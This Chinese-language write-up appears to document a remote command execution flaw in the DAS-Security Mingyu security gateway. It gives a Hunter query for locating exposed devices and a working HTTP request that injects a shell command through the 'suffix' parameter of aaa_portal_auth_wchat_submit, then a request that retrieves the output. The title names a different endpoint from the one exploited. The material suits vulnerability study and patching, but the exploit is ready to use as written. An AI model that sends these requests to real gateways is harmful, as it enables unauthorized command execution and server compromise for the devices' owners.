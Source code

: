 # 安恒明御安全网关aaa_local_web_preview存在远程命令执行漏洞

# 一、漏洞简介
安恒信息明御安全网关<font style="color:rgb(0, 0, 0);">（以下简称“NGFW”）秉持安全可视、简单有效的理念，以资产为视角，构建“事前+事中+事后”全流程防御的下一代安全防护体系，并融合传统防火墙、</font>入侵防御系统<font style="color:rgb(0, 0, 0);">、防病毒网关、上网行为管控、VPN网关、威胁情报等</font>安全模块<font style="color:rgb(0, 0, 0);">于一体的智慧化安全网关。安恒明御安全网关aaa_portal_auth_wchat_submit存在远程命令执行漏洞。攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 安恒明御安全网关

# 三、资产测绘
+ hunter`app.name="安恒明御安全网关"`
+ 特征

![1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3.png](./img/jAKWW4JqUQbjCmHl/1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3-523650.png)

# 四、漏洞复现
```plain
GET /webui/?g=aaa_portal_auth_wchat_submit&suffix=;echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/stc.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703405909643-3e3d865b-260e-419a-b697-5ed23a0a0ecd.png](./img/jAKWW4JqUQbjCmHl/1703405909643-3e3d865b-260e-419a-b697-5ed23a0a0ecd-711461.png)

获取命令执行结果

```plain
GET /sslvpn/stc.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703405938768-9fa01d85-610c-4b95-a221-8a3363171080.png](./img/jAKWW4JqUQbjCmHl/1703405938768-9fa01d85-610c-4b95-a221-8a3363171080-296297.png)



> 更新: 2024-07-17 17:29:07  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rdf0zo1tk2wbzg3g>